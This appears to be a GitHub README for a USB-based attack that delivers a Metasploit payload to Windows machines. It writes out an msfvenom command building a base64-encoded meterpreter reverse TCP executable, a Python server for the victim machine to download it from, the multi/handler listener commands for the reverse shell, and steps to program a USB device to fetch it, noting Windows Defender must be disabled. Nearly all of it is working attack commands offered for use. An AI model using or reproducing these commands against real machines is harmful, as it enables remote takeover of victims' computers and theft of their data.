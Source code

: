 # Metasploit Download

Throughout this tutorial I will refer to `0.0.0.0`. When you see `0.0.0.0` you should replace it with your IP address.

You must have the [metasploit-framework](https://github.com/rapid7/metasploit-framework) and python installed in order for this to work. Installed by default in Kali Linux.

Please note that Windows Defender will stop this script from running. Windows Defender must be disabled for this script to work.

## Creating Payload

This command will create a Windows executable file, encoded in base64. Make sure to replace `0.0.0.0` with your IP.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe -e php/base64 -o winner.exe.b64
```

## Hosting Payload

This command creates a local server on your device that the victim machine can download the payload from.

```bash
python -m http.server 8888
```

## Metasploit Listener

The following is a sequence of commands to be run. This will prepare you to receive the reverse shell. Make sure to replace `0.0.0.0` with your IP.

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter_reverse_tcp`
- `setg LHOST 0.0.0.0`
- `setg LPORT 4444`
- `exploit`


## Programming USB

Open [metasploit-download.ino](metasploit-download.ino), go to line 24, replace `0.0.0.0` with your IP, then upload your script to the USB. Insert __responsibly and legally__ please!

